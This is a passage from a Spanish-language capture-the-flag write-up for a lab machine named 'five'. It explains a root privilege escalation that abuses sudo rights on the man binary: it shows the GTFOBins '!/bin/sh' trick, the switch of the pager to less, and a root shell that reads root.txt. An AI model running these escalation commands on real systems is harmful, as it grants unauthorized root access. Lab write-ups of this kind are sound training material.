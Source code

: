 Como siempre echaremos mano de nuestro buen amigo <https://gtfobins.github.io/gtfobins/man/#sudo> donde podemos ver que el binario *man* será en este caso el que nos permita convertirnos en root. La escalada si bien no es difícil, se me hizo bastante liosa y tardé un poco en entederla.

El tema es que si hacemos lo que nos indica *gtfobins*:

~~~~bash
sudo man man
!/bin/sh
~~~~

El editor por defecto no nos permite insertar comandos para lanzar la bash. De esta forma si miramos el manual de man encontramos lo siguiente:

![](/assets/images/five/man.png){: .align-center}

Teniendo esto claro, cambiamos el paginador por defecto a *less* y ya podemos ejecutar la bash:

~~~~bash
melisa@five:~$ sudo man -P less id
root@five:/home/melisa# cd /root
root@five:~# ls
root.txt
root@five:~# cat root.txt
~~~~

Máquina finalizada. Si bien no hemos aplicado técnicas nuevas, hemos abierto un poco la mente para resolver diferentes conceptos. Darle como siempre las gracias a *sml* por su trabajo para la comunidad. Nos vemos en la siguiente.
